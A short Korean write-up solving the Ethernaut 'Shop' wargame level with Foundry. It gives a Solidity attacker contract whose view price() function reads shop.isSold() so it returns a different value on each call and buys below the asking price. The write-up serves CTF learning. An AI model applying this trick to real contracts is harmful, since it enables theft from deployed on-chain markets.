

# Ethernaut Foundry로 풀기

## 21. Shop



Shop이 Buyer를 사용함.  
view function의 제한사항 이해하기.
=> isSold true만들면 끝

```
   function price() external view returns (uint256) {
        return 1000;
    }
    function gogo() external {
        shop.buy();
    }
```
이렇게 공격컨트랙트를 만들어서 했을때 isSold가 true는 되었는데 
price가 100보다 커서 저렇게 하면 안되는것. 

```
function price() external view returns (uint256) {
        if (shop.isSold()) {
            return 80;
        } else {
            return 100;
        }
    }
    function gogo() external {
        shop.buy();
    }
```
buy()함수에서 price()를 두번사용하는데
reentrancy 체크하는것처럼 처음 콜했을때랑 두번째 콜했을때랑 다르게해주면 끝. 
